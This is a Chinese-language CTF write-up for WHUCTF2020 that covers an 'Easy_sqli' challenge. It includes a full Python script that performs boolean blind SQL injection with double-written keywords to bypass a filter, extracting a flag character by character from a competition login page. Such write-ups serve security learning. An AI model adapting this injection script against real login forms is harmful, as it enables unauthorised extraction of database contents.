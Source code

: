 ```yaml
---
title: WHUCTF2020
date: 2020-05-24
image: https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120170745.jpeg
description: 
categories: 
- ctf_writeup
tags:
- SQLi
- phar
- RCE bypass
---
```

武汉大学的CTF，难的简单的都有，最近比赛是真滴多，打完金盆洗手了

------

### Easy_sqli

考点：bool盲注，双写绕过

简单，没啥好讲的

```
#wh1sper
import requests
host = 'http://218.197.154.9:10011/login.php#'
def mid(bot, top):
    return (int)(0.5 * (top + bot))
def sqli():
    name = ''
    for j in range(1, 250):
        top = 126
        bot = 32
        while 1:
            babyselect = '(seselectlect f111114g frfromom f1ag_y0u_wi1l_n3ver_kn0w)'#
            select = "1' oorr ascii(substr("+babyselect+",{},1))>{} #".format(j, mid(bot, top))
            data = {"user": select, "pass": "a"}
            r = requests.post(url=host, data=data)
            #print(data)
            if 'Login success!' in r.text:  # 成功
                if top - 1 == bot:  # top和bot相邻，说明name是top
                    name += chr(top)
                    print(name)
                    break
                bot = mid(bot, top)  # 成功就上移bot
            else:  # 失败
                if top - 1 == bot:  # top和bot相邻，加上失败，说明name是bot
                    name += chr(bot)
                    print(name)
                    break
                top = mid(bot, top)  # 失败就下移top
if __name__ == '__main__':
    sqli()
```
